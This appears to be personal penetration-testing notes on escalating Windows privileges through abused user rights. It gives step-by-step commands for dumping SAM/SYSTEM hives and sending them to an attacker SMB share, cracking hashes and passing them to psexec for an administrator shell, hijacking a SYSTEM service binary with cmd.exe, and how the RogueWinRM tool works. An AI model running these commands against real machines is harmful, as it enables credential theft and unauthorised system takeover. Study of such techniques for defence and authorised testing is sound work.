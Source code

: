 # Abusing privileges

**To view the privileges of the current user:**

```powershell
C:\> whoami /priv
```

### SeBackup / SeRestore

The `impacket` tool can be used to perform various tasks such as starting a _SMB_ server, dumping secrets from hives in the Windows registry, and running commands with `psexec`, among many others.

Refer to my `impacket` notes for more information:

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/tools-services/general/impacket" %}

Suppose we have gained a remote shell on a server with the `SeBackUp` and `SeRestore` privileges

```powershell
C:\target> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```

Due to the set privileges, we are able to save the contents of the `SAM` and `SYSTEM` hive registry to a location of our choice (`C:\Users\jarrett\system.hive` and `C:\Users\jarrett\sam.hive` in this case):

```powershell
C:\target> reg save hklm\system C:\Users\jarrett\system.hive
C:\target> reg save hklm\sam C:\Users\jarrett\sam.hive
```



The command below starts a simple _SMB_ server on the attacker machine with a network share named `public` pointing to the `share` directory. This allows us to transfer the files from the target machine to the attacker at a particular share point (`share` folder).

_**Attacker machine**_

```bash
attacker@attacker_ip:~$ impacket-smbserver -smb2support -username jarrett -password mynamejeff public share
```



The command below copies the content of `system.hive` and `sam.hive` at the specified directory to the share point on the attacker machine.

_**Target machine**_

```powershell
C:\target> copy c:\users\jarrett\system.hive \\<attacker_ip>\public\
C:\target> copy c:\users\jarrett\sam.hive \\<attacker_ip>\public\

```



**The next few commands should be ran from the attacker machine**

The command below dumps the hashes from the `sam.hive`and `system.hive`files present on the current folder (specified by the `LOCAL` target option).

```bash
attacker@attacker_ip:~/share$ ls 
sam.hive system.hive

attacker@attacker_ip:~/share$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket vxxx - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: ...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
...:::
Guest:xxx:xxx:xxx::
Administrator:xx12xx:xx34xx::
...
```

The command below uses the hashes found from the `impacket-secretsdump` command above, to authenticate as the _**administrator**_ user. This provides us with a remote shell as the _administrator_ user on the target Windows machine

```bash
attacker@attacker_ip:~/share$ impacket-psexec -hashes xx12xx:xx34xx administrator@10.10.x.x
...

C:\Windows\system32> 
```



### SeTakeOwnership

This permission allows a user to take ownership of any object on the system, including files and registry keys.&#x20;

```powershell
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
...
```

Suppose we have found a service on the target system that executes an`.exe`file with `SYSTEM` privileges (an example would be `utilman.exe`). Let's name that file `rand.exe`. Due to our `SeTakeOwnership` privilege, we are able to take ownership of that file with the command below:

```powershell
C:\> takeown /f C:\Windows\System32\priv.exe
```

At this point, we are able to provide ourselves any privileges we need over the file. The command below gives our current user (_jarrett_) full access`(F)`to the `priv.exe` file at the specified location.

```powershell
C:\> icacls C:\Windows\System32\priv.exe /grant jarrett:F
```

Finally, we can copy any file of choice to the target file we have full access to:

> Take note to be in the correct file directory when using the terminal, or optionally provide the correct path

The command below copies the `cmd.exe` file to`priv.exe:`

```powershell
C:\Windows\System32\> copy cmd.exe priv.exe
```

This provides us with a command prompt with `SYSTEM` privileges whenever the particular service mentioned above is started.

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/takeown" %}

### SeImpersonate / SeAssignPrimaryToken

* `SeImpersonate`: Privilege that allows a user to impersonate another user’s security context
* `SeAssignPrimaryToken`: Privilege that allows assignments of a new security token to a process.  This allows that process to impersonate a higher-privileged user (such as `SYSTEM`).

Breakdown of how the `RogueWinRM` exploit tool works (As of time of writing, I wasn't able to find a comprehensive technical guide on how it works. However, I have pieced together the key points from research on the main concepts involved in this exploit):

1.  The Background Intelligent Transfer Service (_BITS_) is started, which automatically initiates a connection to port 5985 (used by _WinRM_) using `SYSTEM` privileges.

    * &#x20;Port 5985 is typically used for the _WinRM_ service, which is simply a port that exposes a _Powershell_ console to be used remotely through the network.&#x20;
    * The SYSTEM-level authentication credentials can be captured from the above-mentioned connection to _WinRM_ on the local target machine (port 5985)&#x20;


2. The captured authentication credentials can be used to execute a malicious payload of choice (specified as argument to the `RogueWinRM` tool) with SYSTEM-level privileges. This is due the `SeImpersonate` and `SeAssignPrimaryToken` privileges being set on the user on the target machine
   * A reverse shell connection can be established to a remote attacker server, essentially providing a SYSTEM-level shell



{% embed url="https://github.com/antonioCoco/RogueWinRM" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal" %}
BITS service
{% endembed %}

_**Windows privileges to admin list**_

{% embed url="https://github.com/gtworek/Priv2Admin" %}
